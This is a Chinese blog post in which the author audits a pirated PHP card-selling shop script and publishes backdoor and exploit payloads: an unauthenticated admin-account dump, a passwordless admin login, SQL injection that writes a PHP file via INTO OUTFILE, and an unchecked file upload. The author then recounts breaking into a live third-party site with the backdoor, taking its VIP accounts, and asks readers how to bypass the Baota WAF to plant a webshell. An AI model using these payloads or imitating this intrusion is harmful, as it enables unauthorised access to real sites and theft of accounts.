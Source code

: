```yaml
---
title: "记一次由百度云会员引起的渗透"
date: 2019-04-03T13:18:55+08:00
lastmod: 2019-04-03T13:18:55+08:00
draft: false
tags: ['php','sql','vip']
categories: ['code','pentest']
comment: true
---
```


百度云盘真的恶心，不开会员10k/s。

<!--more-->

# 前言

前天找了点域渗透的环境和资料，都是百度云盘存储的，一个镜像十几个g，下不下来，发现网上有卖百度云VIP账号的，都是一些发卡网，刚好自己最近在学代码审计，就想着下载一套源码自己看看能不能审出漏洞。没想到还真看出来了点东西。

# 开搞

目标站点`xx.com`扫出了`readme.txt`，是**企业版PHP自动发卡源码免授权优化版**

![](https://y4er.com/img/uploads/20190509165269.jpg)

看到这免授权优化版我就知道有戏，很可能存在后门。网上找了一套

![](https://y4er.com/img/uploads/20190509162439.jpg)

目录结构和目标站点一样，应该就是这套了。

本地搭建，然后源代码扔到seay先跑着，我先大概看下架构

`index.php`入口

![](https://y4er.com/img/uploads/20190509168352.jpg)

典型的mvc架构

![](https://y4er.com/img/uploads/20190509168398.jpg)

伪静态重写URL

![](https://y4er.com/img/uploads/20190509167137.jpg)

代码审计这方面我是新手，所以我的目标是找找sql注入、未授权访问、上传点以及越权，当然考虑到是免授权优化版，我还可以找找后门：文件遍历或者代码执行

## [后门?]文件遍历

`/bom.php`的`checkdir()`函数

![](https://y4er.com/img/uploads/20190509169865.jpg)

![](https://y4er.com/img/uploads/20190509163282.jpg)

递归遍历当前目录下的所有文件。

这个文件应该是去除文件的bom头，不知道算不算后门。

## 过滤方式

`\includes\libs\Functions.php`

![](https://y4er.com/img/uploads/20190509168122.jpg)

全局`makeSafe()`函数过滤，强转数字，`addslashes()`和`mysql_real_escape_string()`转义字符串，`strip_tags`去除html标签

`\includes\libs\Mysql.php`

MySQL使用UTF8编码![](https://y4er.com/img/uploads/20190509169572.jpg)

我发现的SQL语句变量全部使用单引号进行包裹，寄希望于seay，暂放。

## [后门]获取管理员账户

`\admin\adminInfo.php`没有鉴权

![](https://y4er.com/img/uploads/20190509165310.jpg)

```php
function getmethod(){
	$ob = new Admin_Model();
	$items = $ob->getData(1, 10, "WHERE id <> -1");	
	$index = 0;
	echo "<table border='1' style=''>";
	foreach($items as $item){
		echo "<tr>";
		$index ++;
		if($index == 1){		
			foreach($item as $key => $val){
				if(preg_match("/^\d*$/",$key)){
					continue;
				}
				echo "<th>$key</th>";
			}
			echo "</tr>";
			echo "<tr>";
		}
		foreach($item as $key => $val){
			if(preg_match("/^\d*$/",$key)){
				continue;
			}
			echo "<td>$val</td>";	
		}
		echo "</tr>";
	}
	echo "</table>";
}
```

payload：`/admin/adminInfo.php?action=get`

## [后门]无需密码登录后台

还是`\admin\adminInfo.php`

```php
function infomethod(){
	$ob = new Admin_Model();
	$u = $ob->getOneData($_GET['id']);
	$_SESSION['login_adminname']=$u['username'];
	$_SESSION['login_adminid']=$u['id'];
	$_SESSION['login_adminutype']=$u['utype'];
	$_SESSION['login_adminlimit']=explode('|',$u['adminlimit']);
}
```

payload:先访问`/admin/adminInfo.php?action=info&id=1`然后访问`/admin/`

## [后门]SQL注入

还是`\admin\adminInfo.php`的`infomethod()`函数

```php
$u = $ob->getOneData($_GET['id']);
```

id直接代入数据库查询，可尝试`into outfile`

payload

```
http://go.go/admin/admininfo.php?action=info&id=-1 union select 1,2,3,4,5,6,7,8,9,10,'<?php phpinfo()?>' into outfile 'E:/WWW/faka/1.php'
```

## 后台任意文件上传

`/admin/set.php`未对文件后缀校验

![](https://y4er.com/img/uploads/20190509169338.jpg)

![](https://y4er.com/img/uploads/20190509161320.jpg)

## 漏洞利用

文件遍历拿到后台=>`adminInfo.php`拿到管理员账户或直接登陆=>任意文件上传拿shell

# 实战

后门进入后台，上传没有写文件权限，sql注入outfile写文件被宝塔拦截，尝试多种方法无果，放弃，毕竟账号已经有了，下东西去。

![](https://y4er.com/img/uploads/20190509162833.jpg)

ps:我没想到一个卖百度云账号的流水一天也能7k

# 总结

网站是死的，思路是活的。渗透测试的精髓是指哪打哪，希望我可以做到。**另外如果有师傅知道怎么绕过宝塔写shell的请pm我，感激不尽。**有在学代码审计的同学也欢迎找我交流哦！